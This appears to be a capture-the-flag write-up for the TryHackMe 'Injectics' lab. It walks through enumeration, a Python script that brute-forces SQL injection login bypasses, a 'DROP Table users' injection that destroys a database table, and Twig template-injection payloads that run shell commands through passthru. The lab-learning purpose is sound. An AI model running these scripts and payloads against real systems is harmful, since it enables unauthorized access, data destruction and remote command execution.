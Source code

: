 ## THM CTF - Injectics

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   injectics.thm
```
Now we can proceed with an ```Nmap``` scan.
```
nmap -sS -T4 -p22,80 -sV -sC injectics.thm
```
We’ve found two open ports, but for now, we’re focusing on HTTP. We’ll leave the SSH port open for later if we need it.

We can ignore all other ```Nmap``` scans for now because we need to test a web application. However, the scan reveals that the ```HTTPOnly``` flag for cookies isn’t set.

We can use a ```Gobuster``` scan to enumerate any hidden directory:
```
gobuster dir -u http://injectics.thm -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```
This scan reveals a file named ```mail.log``` containing some credentials. The mail message states that if the database gets corrupted, there are some credentials that can be used to access the system.
```
| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |
```
This is our objective for now, corrupt the database.

There are 2 login pages:
* ```login.php``` is protected against basic SQL injection attempts by a script. This script uses the ```Ajax GET method``` to retrieve responses from the server after our input, from a page named ```functions.php```. While reading the script closely, we can identify the landing page in case of correct credentials, which was already highlighted by ```Gobuster``` as ```dashboard.php```.
* ```adminLogin007.php``` is not protected by basic SQLi attack while not redirecting anywhere after our input.

We can try to inject some payload through ```functions.php``` with the help of ```BurpSuite``` and an already composed payload downloaded from [GitHub](https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt).

We can do it at a faster rate thanks to a Python script.

<details>
<summary><h3>THM_Injectics_SQLi_brute.py</h3></summary>
  
```python

import requests
import string

# Set URL and main variables
url_brute = 'http://injectics.thm/functions.php'
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
}
file_path = '/home/kali/Downloads/SQLi.txt'

# Start a new session
session = requests.Session()

#Try to read the file content then execute the attack
try:
    with open(file_path, 'r') as file:
        for item in file:

# Create Payload based on the payload selected line by line
            payload={
                "username" : item.strip(),
                "password" : "admin",
                "function" : "login"
            }

# Send the request
            response = session.post(url_brute, headers=headers, data=payload)

# Check for the correct response and print the output in the terminal
            if response.json()['status'] != 'error':
                print(f"Access Granted with this payload: {item.strip()}")
                print(f"Use this session Cookie: {session.cookies['PHPSESSID']}")
                break
except FileNotFoundError:
    print(f"File not found: {file_path}")

```
  
</details>

We obtain a valid session with:
```
' OR 'x'='x'#;
```
Json response:
```
{"status":"success","message":"Login successful","is_admin":"true","first_name":"dev","last_name":"dev","redirect_link":"dashboard.php?isadmin=false"}
```

With the same ```Cookie``` used to execute the attack, we can access to the ```dashboard.php``` page as a DEV.

Now we can try to drop the database.

In the dashboard we can edit some more fields (like gold, silver and bronze of the list), so we try another brute-force attack in search for ```SQLi``` vulnerability.

We can use ```BurpSuite``` or previous Python code extended.

<details>
<summary><h3>THM_Injectics_SQLi_brute.py (Complete)</h3></summary>
  
```python

import requests
import string

# Set URL and main variables
url_brute = 'http://injectics.thm/functions.php'
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
}
file_path = '/home/kali/Downloads/SQLi.txt'

# Start a new session
session = requests.Session()

#Try to read the file content then execute the attack
try:
    with open(file_path, 'r') as file:
        for item in file:

# Create Payload based on the payload selected line by line
            payload={
                "username" : item.strip(),
                "password" : "admin",
                "function" : "login"
            }

# Send the request
            response = session.post(url_brute, headers=headers, data=payload)

# Check for the correct response and print the output in the terminal
            if response.json()['status'] != 'error':
                print(f"Access Granted with this payload: {item.strip()}")
                print(f"Use this session Cookie: {session.cookies['PHPSESSID']}")
                break
except FileNotFoundError:
    print(f"File not found: {file_path}")


# After Obtaining a valid session we can attack the inner page
# Define new variables
inner_url = 'http://injectics.thm/edit_leaderboard.php'
logout_url = 'http://injectics.thm/logout.php'

#Try to read the file content then execute the attack
try:
    with open(file_path, 'r') as file:
        for item in file:

# Create Payload based on the payload selected line by line
            payload={
                "rank": "1",
                "country": "USA",
                "gold": item.strip(),
                "silver": "21",
                "bronze": "12345"
            }

# It seems that all the headers value need to be filled for the request to be successful
            headers = {
                    'Host': 'injectics.thm',
                    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
                    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8',
                    'Accept-Language': 'en-US,en;q=0.5',
                    'Accept-Encoding': 'gzip, deflate, br',
                    'Content-Type': 'application/x-www-form-urlencoded',
                    'Content-Length': '46',
                    'Origin': 'http://injectics.thm',
                    'DNT': '1',
                    'Sec-GPC': '1',
                    'Connection': 'keep-alive',
                    'Upgrade-Insecure-Requests': '1',
                    'Priority': 'u=0, i'
                }
# Send the request
            response = session.post(inner_url, headers=headers, data=payload)

# Check for the correct response and print the output in the terminal
            if 'Error updating data' not in response.text and 'Welcome to the Injectics 2024' not in response.text:
                print(f"Payload found: {item.strip()}")

# Then try to drop the Database if the first attack is successful
                print(f"Try to drop database...")

# Craft the correct payload
                payload='rank=1&country=&gold=23;DROP+Table+users;&silver=21&bronze=12345'

# Send the payload and check if the database is correctly dropped
                response = session.post(inner_url, headers=headers, data=payload)
                if 'important table' in response.text:
                    print(f"Good Job! Database Dropped")
                break
except FileNotFoundError:
    print(f"File not found: {file_path}")

```
  
</details>

We find that in the private area there is no protection against basic ```SQLi``` like:
```
or 1=1
```
So we try to drop the database via ```BurpSuite``` changing the value of ```gold``` variable to:
```
23;DROP+Table+users;
```
After logging out, we encounter an error message indicating a database malfunction. 

***All these phases are handled by the Python script.***

However, after a brief wait, we can attempt to log in again using the credentials we previously found, successfully gaining access to the Admin page via:
```
http://injectics.thm/adminLogin007.php
```
In the Admin page there is the first flag and a ```Profile``` page where we can test something else.

Previously while we enumerate folders with ```Gobuster```, we found a file ```composer.json``` that tells us that the ```Template Engine``` used in the making of this site is ```Twig```.

We can try to submit the payload in the ```First Name``` of the profile:
```
{{7*7}}
```
We then navigate to the main page to discover that our welcome message changed to ```Welcome, 49!```

So we can test others payload to discover the content of ```flags``` folder (discovered with ```Gobuster```). Thanks to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md#twig---code-execution) we can find the other flag.
```
{{['ls',""]|sort('passthru')}}
{{['ls flags',""]|sort('passthru')}}
{{['cat+flags/***************************.txt',""]|sort('passthru')}}
```
